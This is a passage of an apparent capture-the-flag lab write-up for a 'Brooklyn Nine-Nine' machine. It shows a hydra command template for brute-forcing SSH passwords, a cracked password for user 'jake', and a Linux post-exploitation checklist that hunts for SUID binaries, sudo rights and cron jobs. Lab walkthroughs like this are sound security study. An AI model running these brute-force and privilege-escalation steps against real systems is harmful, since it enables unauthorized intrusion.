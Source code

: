 All of the results shown are `HTTP 403: Forbidden` error and we can safely assume that the webserver is not useful for us.

## Exploitation

We have an idea that `Jake` has weak password but there is no login page on webpage but we know that there is a `SSH` port open. We can try to bruteforce/guess the password of `Jake` using `hydra`.

### Using hydra

Steps:

1. We have username: `jake` and we need to bruteforce his password using hydra.

    Command: `hydra -l jake -P [WORDLIST] ssh://[IP] -t [NUMBER OF THREADS]`

2. Wait for `hydra` to finish.

    Results:

    ![Hydra result](../imgs/Brooklyn%20Nine-Nine/hydra_crack.png)

### Table 1.2: Credentials

Username | Password
:---: | :---:
jake | 987654321

## Post-Exploitation

### *Internal Enumeration*

#### Table 1.3: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -user root -perm -u+s 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)
``whoami && id`` | prints `effective userid` (EUID) and prints `real` and `effective userid` and `groupids` (GID).
``cat /etc/crontab`` | checks for cron jobs.
